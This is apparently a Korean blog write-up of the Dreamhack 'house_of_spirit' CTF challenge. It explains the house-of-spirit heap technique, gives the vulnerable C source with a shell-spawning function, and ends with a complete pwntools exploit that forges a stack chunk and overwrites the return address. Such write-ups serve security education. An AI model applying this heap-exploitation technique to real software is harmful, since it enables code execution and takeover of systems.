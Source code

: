 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN house_of_spirit"
excerpt: "드림핵 포너블 house_of_spirit 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-26 15:00
---
```


얼떨결에 도전해본 4단계 문제이다. 취약점 이름은 제목과 같이 house_of_spirit 공격에 관한 내용이다. 문제를 보면 해당 취약점이 어떤 방식으로 터지는지에 대한 설명이 링크로 주어진다. [https://learn.dreamhack.io/16#96](https://learn.dreamhack.io/16#96)

해당 취약점을 간단히 설명하면, free함수는 할당된 메모리를 해제하는 함수이다. free함수를 통해 해제된 청크는 fastbin의 규칙 때문에 취약점으로 이어질수 있다. 가령 0x30의 메모리를 free하면 해당 청크는 fastbin 규약에 따라 메모리에서 해제된다. 해제된 메모리 정보를 tcache_entry에 저장한다. 이후 다시 0x30의 메모리를 할당 받으면 다른 힙 청크에서 일부를 할당하는 것이 아닌 tcache_entry에 등록되어 있는 동일한 사이즈의 청크를 이용하게 된다. 해당 취약점은 변수의 메모리 주소를 알고있다는 가정 하에 실제 청크의 형식을 변수 메모리에 구성하고 이를 해제 후 제 할당함으로 써 할당한 청크에 값을 쓰면 스택 영역을 덮어 씌울 수 있다.

해당 문제의 소스코드는 다음과 같다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
	execve("/bin/sh", NULL, NULL);
}

int main() {
	char name[32];
	int idx, i, size = 0;
	long addr = 0;

	initialize();
	memset(name, 0, sizeof(name));
	printf("name: ");
	read(0, name, sizeof(name)-1);

	printf("%p: %s\n", name, name);
	while(1) {
		printf("1. create\n");
		printf("2. delete\n");
		printf("3. exit\n");
		printf("> ");

		scanf("%d", &idx);

		switch(idx) {
			case 1:
				if(i > 10) {
					return -1;
				}
				printf("Size: ");
				scanf("%d", &size);

				ptr[i] = malloc(size);

				if(!ptr[i]) {
					return -1;
				}
				printf("Data: ");
				read(0, ptr[i], size);
				i++;
				break;
			case 2:
				printf("Addr: ");
				scanf("%ld", &addr);

				free(addr);
				break;
			case 3:
				return 0;
			default: 
				break;
		}
	}

	return 0;
}
```

바이너리의 진행 구조는 다음과 같다.
```
이름 입력 -> 이름 메모리 주소 출력 -> 각 매뉴에 따라 1번은 malloc을 통한 메모리 할당 -> 2번을 통해 free를 이용한 메모리 해제 -> 3번을 통해 return을 호출 후 종료
```

이름을 입력한 메모리의 주소를 알수 있다는 것이 매우 유효하다. 이 주소는 스택 영역에 있으며 이를 이용해 가짜 청크를 구성하고 해제한 가짜 청크만큼 다시 할당해 return영역을 덮어쓰면 익스플로잇에 성공할 것 같다.

문제를 풀기전에 청크의 구조를 알아보자.
```
     ________________________________
    |   prev_size   |      size      |   <- header[prev_size + size의 값이
    |--------------------------------|            32비트의 경우 8바이트(4 + 4),
    |                                |            64비트의 경우 16바이트(8 + 8)]
    |                                |
    |              data              |   <- 할당한 데이터 영역의 크기
    |                                |
    |                                |
    |________________________________|
```
위처럼 구조가 나열되어 있으며 64비트 환경에서 0x32크기의 힙을 할당받으면 해더 영역 0x10 과 데이터 영역 0x32가 더해진 0x42가 해더의 size에 쓰인다. prev_size는 이전 청크의 크기 값이다.


이 정보를 바탕으로 name 변수에 가짜 청크를 구성해보자. 헤더 영역만 잘 맞춰주면 free 함수가 청크로 인식해 사이즈 만큼 해제할 수 있을 것이다. prev_size는 0을 8바이트 만큼 넣고 size를 0x50만큼 입력한다. 이후 출력된 메모리 주소를 free 한다. 다만 힙을 한번 할당 해야지 tcache가 생성되므로 임의 크기의 힙을 한번 할당한다. 이후 출력된 메모리 주소 + 0x10의 주소를 free하면 name변수 주소로 청크가 0x50만큼 할당된다. 이후 임의 데이터로 채우고 return 주소가 들어있는 부분에 get_shell() 함수 주소를 넣으면 익스플로잇 할수 있다.

익스플로잇 코드는 다음과 같다.
```python
from pwn import *
context.update(arch='amd64', os='linux')

p = remote("host3.dreamhack.games", 9817);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./house_of_spirit")
#libc=ELF('./libc.so.6')

data = p64(0)+p64(0x50)
print(data)

p.sendafter(b"name: ", data)

leak = int(p.recvuntil(b":")[:-1], 16)
print(f"leak data : {hex(leak)}")

free_ptr = leak+0x10
print(f"free ptr : {hex(free_ptr)}")

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", b"A"*64)

p.sendlineafter(b"> ", str(2))
p.sendlineafter(b"Addr: ", str(free_ptr))

payload = b"A"*40+p64(0x400940)

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", payload)

pause()

p.sendlineafter(b"> ", str(3))

p.interactive()
```
